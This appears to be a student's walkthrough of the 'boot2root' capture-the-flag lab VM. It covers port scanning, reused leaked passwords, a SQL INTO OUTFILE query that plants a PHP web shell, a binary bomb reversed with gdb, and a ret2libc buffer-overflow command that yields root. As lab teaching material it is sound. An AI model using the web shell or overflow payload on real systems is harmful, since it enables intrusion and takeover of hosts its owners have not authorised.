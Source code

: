 # Main way

Since bridged adapter is blocked in the school - I setup kali linux vm and boot-to-root vm through host-only adapter.
I created local network through *VirtualBox->File->Host network manager*, and it's ip *192.168.56.1/24*.
Now, there is a local network with kali vm, boot-to-root vm and host computer.
And kali will see only host computet and boot-to-root vm.
My kali linux ip is 192.168.56.101 (through * ip a *).
And we need to find out how can we interact with boot-to-root vm. For this I check all available ports im my local network with * nmap 192.168.56.1-225 *

For only one non host port in my local network I received:
Nmap scan report for 192.168.56.102
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

So boot-to-root vm running on 192.168.56.102 ip, and have few open ports.

On http there is site, which is pretty empty, I check it html source code and there is nothing interesting in it. 
After that I scanned it with * skipfish -o path_to_save http://192.168.56.102 * and * nikto -h http://192.168.56.102 *, and not found thomething interesting.

There is another open port which could be scanned, it's https.
using * nikto -h https://192.168.56.102 * we recieve few interesting dirs: forum, webmail, phpmyadmin

On forum there are 4 topics and only one is iteresting, topic *Probleme login* where user *lmezard* push logs with attempts to log in.

In these logs we can see, what username lmezard used trying to log in, it's *Failed password for invalid user 'username'* 
And there is interesting username in string * Failed password for invalid user !q\]Ej?*5K5cy*AJ *
And, these characters came up for lmezard password.

In lmezard profile we could see his email, so we go to webmail, and try the same password !q\]Ej?*5K5cy*AJ to his mail. And it's fits again.

In mail there is message * DB Access * which contains * Use root/Fg-'kKXBj87E:aJ$  *. It doesn't fit to ssh and ftp connection, but it's fit to phpmyadmin.

First of all I checked all tables in db, but all users passwords hashed and I didn't find any helpful information.
And another way to get access to server - is SQL injection through which you can access the shell.
(detailed articles about SQL injections https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/ https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

* SELECT  '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/hack.php' *
templates_c - dir which always need write permission, used for compiled templates. I found it through *dirbuster* and brute force dirs to write access.

After that we can run something like this * https://192.168.56.102/forum/templates_c/hack.php?cmd=pwd * and it will show pwd output * /var/www/forum/templates_c *

After a little research, we can see LOOKATME dir in home dir with other users (I used curl because more convenient output):
* curl --insecure 'https://192.168.56.102/forum/templates_c/hack.php?cmd=ls%20-la%20/home' * (--insecure because of https not safe)
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr 16 04:01 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz

There is file password in LOOKATME dir, which contains * lmezard:G!@M6f4Eatau{sF" *

This password fit to ftp port, which contains README file - "Complete this little challenge and use the result as password for user 'laurie' to login in ssh", and fun file (which need to be solved).
(command 'get' to receive files through ftp)

### lmezard
File fun is archive (I found out it because of '0ustar' mark in file).
After unzipping (* tar -xf fun *)
There is a folder * ft_fun * with a lot of pcap files.

These files have c code, and comments which number/line it has.
So we need to write script which will correct concat them into c file. (script attached)
And the name of this script is "build_program.py". Run it to get full program.
Compile and run this program. Got "Iheartpwnage" password and advice to use sha-256.

### laurie
```
echo -n "Iheartpwnage" | shasum -a 256
```
laurie : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

There is bomb here. Bomb contains of 6 phases. We should input correct key in each stage.
```
scp -P 2222 laurie@127.0.0.1:bomb ./
```

gdb bomb

    disas main
    disas phase_1
    x/1cs 0x80497c0
    "Public speaking is very easy."

    disas phase_2
    Program expects 6 numbers. First is 1, and every number = prev * (index(cur) + 1)
    "1 2 6 24 120 720"

    disas phase_3
    It is very difficult to read this asm code. And We downloaded cutter to decompile bomb. Yeah, this way is much better.
    We see switch-case condition here and there is several correct combinations.
    0 q 777
    1 b 214

    phase_4
    Recursive function, which returns sum of calls this function with num - 1 and num - 2. If num < 2 function returns 1. We need 55.
    1 -> 1
    2 -> 2
    3 -> 3
    4 -> 5
    5 -> 8
    6 -> 13
    7 -> 21
    8 -> 34
    9 -> 55

    phase_5
    So we will have some sex with bytes here.
    We shoud get word "giants". Program expects 6 charachters.
    Logical AND with 0xF uses for each inputed character, and then get this num as index of "isrveawhobpnutfg" array.
    So we need indexes: 15 0 5 11 13 1.
    Look at ascii table and get characters which hexadecimal second digit are f, 0, 5, b, d, 1. It is "opekmq".

    phase_6
    Program expects 6 numbers.
    Inside program is array with numbers 253 725 301 997 212 432.
    There are 4 cycles here.
    1) Checks that each number is unique and 1 <= n <= 6.
    2) 3) Build new array from program's array with inputed indexes.
    4) Check that new array is sorted.
    So we need numbers "4 2 6 3 1 5".

README says to remove spaces when we have FULL the password. Ok, lets concatenate all strings and remove spaces.
"Publicspeakingisveryeasy.126241207201b2149opekmq426135". This is password for thor.

### thor
Use our "parse_turtle_steps.py" script and look at word "SLASH".
```
md5 -s SLASH -> "646da671ca01bb5d84dbb5fb2238dc8e" password for zaz.
```

### zaz
You can see expolit_me file there. This program takes argument and prints it. With decompiled code we can see that there is only 140 bytes buffer inside main. And strcpy uses here. Excellent opportunity to overflow buffer and use ret2lib exploit.

We need to know system command adress and '/bin/bash' string address.

gdb exploit_me

    break main
    run
    print &system                           > 0xb7e6b060 > '\xb7\xe6\xb0\x60'
    find &system, +9999999, "/bin/sh"       > 0xb7f8cc58 > '\xb7\xf8\xcc\x58'


Now we can run this command
```
./exploit_me $(python -c "print('a' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'aaaa' + '\xb7\xf8\xcc\x58'[::-1])")
```

Whaaat is going on? Whoami? A im root! System has been hacked.

Description of ret2lib exploit.
https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

Gdb useful things.
https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
